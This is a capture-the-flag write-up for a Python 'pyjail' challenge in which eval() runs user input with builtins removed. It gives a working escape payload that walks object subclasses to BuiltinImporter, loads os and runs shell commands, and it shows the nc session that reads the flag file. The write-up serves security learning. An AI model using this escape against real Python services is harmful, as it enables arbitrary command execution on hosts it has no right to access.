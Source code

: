 # BabyJail
 
## Description:
Just a normal pyjail without builtins!

## Source code:
```python
#!/usr/local/bin/python3
print(eval(input('> '), {"__builtins__": {}}, {}))
```

## Challenge:
This program is a basic "pyjail" challenge where the goal is to break out of the restricted environment and run commands on the host system. The program runs the users commands with the `eval()` function in python, however there are a few tricks.

`{"__builtins__": {}}` - The second argument to `eval()` is the globals dictionary. By passing `{"__builtins__": {}}`, the code tries to restrict access to Python's built-in functions and modules like `open`, `exec`, or `os`. Referencing these will result in a `NameError` as the functions are not defined.

`{}` - The third argument to `eval()` is the locals dictionary. By passing an empty dictionary, the code prevents any local variables or functions from being accessible within the evaluated expression, once again causing a `NameError`.

Despite the restrictions, this sandbox can often be bypassed because `eval()` still allows Python expressions, which may provide access to restricted functionality.

## Solution:

I was able to access hidden attributes by using this python expression to list classes in use in the python environment:
`().__class__.__base__.__subclasses__()`

This returned a large list of python classes, which I tried to filter down to classes with reference to the the `os` module:
`[cls for cls in ().__class__.__base__.__subclasses__() if 'os' in str(cls)]`

However access to the `str` function is not possible, so I copied the output into a file and manually looked for functions of interest. Grepping for `os` returned me `<class 'os._wrap_close'>` at index 155, however I was unable to find any functions I could use to spawn a shell or read a file using this class.

It seemed here that there were a large number of classes that could work as an exploit to this system, and eventually I stumbled across `<class '_frozen_importlib.BuiltinImporter'>` which provided access to the `os` module and the `system` function, allowing me to execute commands. Finally I just had to find the location of the `BuiltinImporter` in the classes list, which I did using list comprehension to search for the class in the output of `().__class__.__base__.__subclasses__()`

```┌──(kali㉿kali)-[~/Downloads]
└─$ nc 172.31.3.2 8002
> [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("ls")
bin
boot
dev
etc
flag_LwAyYvKd
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
```
Then finally it was just a case of changing the command to print the contents of the flag file for the final payload of:
```python
[x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("cat flag_LwAyYvKd")`
```
